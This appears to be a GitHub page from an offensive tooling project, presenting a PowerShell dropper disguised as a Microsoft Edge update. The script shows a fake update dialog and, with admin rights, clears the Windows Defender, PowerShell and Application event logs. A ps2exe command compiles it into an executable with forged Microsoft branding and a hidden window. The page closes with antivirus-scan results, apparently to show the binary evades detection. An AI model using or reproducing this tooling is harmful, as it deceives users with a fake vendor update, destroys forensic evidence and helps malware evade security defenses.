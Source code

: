 ```powershell
# credits: https://ss64.com/ps/messagebox.html
If(-not($MEdgeVersion) -or $MEdgeVersion -eq $null){$MEdgeVersion = "91.0.864.42"}
$Result = [System.Windows.MessageBox]::Show("Microsoft Edge Updated! - Version: $MEdgeVersion","Microsoft Edge Stable Channel $MEdgeVersion",0,64)


## Open browser in edge security bulletin page!
Start-Process msedge https://docs.microsoft.com/en-us/deployedge/microsoft-edge-relnotes-security


<#
.SYNOPSIS
   Author: @r00t-3xp10it
   Helper - Delete eventvwr logfiles!

.NOTES
   This function Deletes ALL logs from eventvwr categories:
   'Windows Defender/Operational', 'PowerShell/Operational'
   'application' and 'Windows Powershell' categories if dropper
   MEdgeUpdaterService.exe is executed with Admin privileges!

#>

If($IsClientAdmin -eq $True)
{
   ## Delete eventvwr logfiles!
   wevtutil cl "Microsoft-Windows-Windows Defender/Operational"
   wevtutil cl "Microsoft-Windows-PowerShell/Operational"
   wevtutil cl "Windows PowerShell"
   wevtutil cl "application"
}

exit
```

<br />

:octocat:  Compile <b><i>'MEdgeUpdaterService.ps1'</i></b> to <b><i>'MEdgeUpdaterService.exe'</i></b>
```powershell
.\ps2exe.ps1 -inputFile "MEdgeUpdaterService.ps1" -iconFile "edge_browser_icon.ico" -title "MEdge Updater Service" -version "91.0.864.42" -copyright "©Microsoft Corporation. All Rights Reserved." -product "Microsoft Edge Stable Channel" -noConsole -noOutput -noVisualStyles -noError
```

<br /><br />

:octocat: antiscan.me results of <b><i>'[shepbind_serv.exe](https://antiscan.me/scan/new/result?id=d66FHzYNSpHY)'</i></b>
![shepbind_serv](https://user-images.githubusercontent.com/23490060/122703331-3646fe80-d249-11eb-9364-e5260cd30864.png)
https://antiscan.me/scan/new/result?id=d66FHzYNSpHY
